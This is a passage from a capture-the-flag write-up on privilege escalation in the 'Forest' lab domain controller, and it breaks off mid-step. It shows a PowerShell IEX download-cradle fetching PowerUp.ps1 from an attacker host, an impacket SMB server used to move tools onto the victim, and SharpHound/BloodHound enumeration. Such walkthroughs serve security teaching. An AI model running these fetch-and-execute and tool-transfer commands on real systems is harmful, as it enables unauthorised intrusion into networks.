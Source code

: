```cmd
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2/PowerUp.ps1')
# Access denied     :(
```

> **Attacker Machine**:

```bash
impacket-smbserver smbFolder $(pwd) -smb2support -username al3j0 -password al3j0123
```

> **Victime Machine**:

```cmd
net use \\10.10.14.2\smbFolder /u:al3j0 al3j0123
copy \\10.10.14.2\smbFolder\PowerUp.ps1 .\PowerUp.ps1
# :)

Import-Module .\PowerUp.ps1
Invoke-AllChechs | Out-File -Encoding ASCII enumeration_result.txt
# :(
```

<br />
<img src="{{ site.img_path }}/forest_writeup/Forest_30.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/forest_writeup/Forest_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/forest_writeup/Forest_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/forest_writeup/Forest_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Another tool I can use to automate the search for attack vectors is **[BloodHound](https://github.com/SpecterOps/BloodHound-Legacy){:target="_blank"}**, but first I will transfer the **[`SharpHound.exe`](https://github.com/SpecterOps/BloodHound-Legacy/blob/master/Collectors/SharpHound.exe){:target="_blank"}** information collector to the **DC**, starting an **SMB server** with credentials so I can access from the victim machine to the shared resource and download the binary. Unfortunately the collector is not compatible with the **DC's OS platform**, but if I transfer an older version of the executable **[SharpHound.exe](https://github.com/SpecterOps/BloodHound-Legacy/releases){:target="_blank"}**, this time I succeed in getting it to run correctly. My next step is to collect everything, but using the compromised account credentials, I can now transfer the collected information (compressed into a **.zip** file) to my machine. I install `neo4j` and `bloodhound`, then I start the **DB manager** and I can run the tool, which unfortunately is not compatible with my version of **postgres**.

> **Attacker Machine**:

```bash
wget https://github.com/SpecterOps/BloodHound-Legacy/blob/master/Collectors/SharpHound.exe
impacket-smbserver smbFolder $(pwd) -smb2support -username al3j0 -password al3j0123
```

> **Victime Machine**:
